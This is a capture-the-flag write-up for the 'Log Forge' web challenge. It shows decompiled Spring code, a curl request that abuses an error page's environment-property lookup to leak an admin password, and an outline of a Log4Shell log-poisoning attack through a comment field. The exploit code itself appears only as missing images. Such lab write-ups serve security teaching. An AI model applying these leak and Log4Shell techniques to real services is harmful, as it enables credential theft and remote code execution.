

## Log Forge
#### about :
- Type: Web 
- Level: medium
- Points : 100

<center></center>

we open the [file](./logforge_test.jar) with [Java decompiler](http://java-decompiler.github.io/)

The credentials are stored in the app.admin and app.password

```java
public class LogForgeSec extends WebSecurityConfigurerAdapter {
  @Value("${app.admin}")
  public String username;
  
  @Value("${app.password}")
  public String password;
```

and the error handling is quite vunerable : 
```java
# logForgeErrorController
public class LogForgeErrorController implements ErrorController {
  @GetMapping({"/errpg"})
  public String handleError(@RequestParam(name = "dbgmsg", required = false) String dbgmsg, HttpServletRequest request, HttpServletResponse httpResponse, Model model) {
    Object status = request.getAttribute("javax.servlet.error.status_code");
    model.addAttribute("code", status);
    model.addAttribute("msg", dbgmsg);
    return "errpage";
  }
}
```

```html
# errpage.html
<body>
    <h1 class="heading" th:text="${code} != null ? 'ERROR : ' + ${code} + '!' : 'ERROR!'" />
    <h2 class="heading" th:text="${msg} != null ? 'Error : ' + ${@environment.getProperty(msg)} : 'Our Engineers are on it!'" />
</body>
```
This enables to access all environment variables, so we can read the app.admin and app.password  : 

```bash
$ curl https://tenable-logforge.chals.io/errpg?dbgmsg=app.password
<!DOCTYPE html>
<html>
<meta http-equiv="refresh" content="1;url=/" />

<body>
    <h1 class="heading" >ERROR!</h1>
    <h2 class="heading" >Error : Lumberj4ck123!</h2>
</body>

</html>
```

**username : administrator**
**password : Lumberj4ck123!**

next we will try to get an SSTI with log poisoning , on the log part code : 

```java
  @RequestMapping(value = {"/dashboard/del"}, method = {RequestMethod.POST})
  public String dashdel(@RequestParam(name = "orderId", required = true) int orderId, @RequestParam(name = "comment", required = false, defaultValue = "no reason given.") String comment, HttpServletRequest request) {
    ArrayList<ForgeRequest> sessOrders = (ArrayList<ForgeRequest>)request.getSession().getAttribute("orders");
    if (orderId >= 0)
      sessOrders.remove(orderId); 
    request.getSession().setAttribute("orders", sessOrders);
    logger.info("Removing OrderId " + orderId + ", " + comment);
    return "redirect:/dashboard";
  }
```

What this function does in recieve the id and a comment of the to-be deleted item , and store the comment string (as it is) in the logger , this is vulnerable to the log4j vulnerablity on spring framework [here](https://blogs.juniper.net/en-us/security/in-the-wild-log4j-attack-payloads) , we can test if it is vulnerable first using this [tool](https://log4shell.huntress.com/) , after that i set up my own ldap server , using this [tutorial](https://tryhackme.com/room/solar) : 

my Exploit .java code was like this : 

<center></center>

sent the request : 

<center></center>


Then i received the flag : 
<center></center>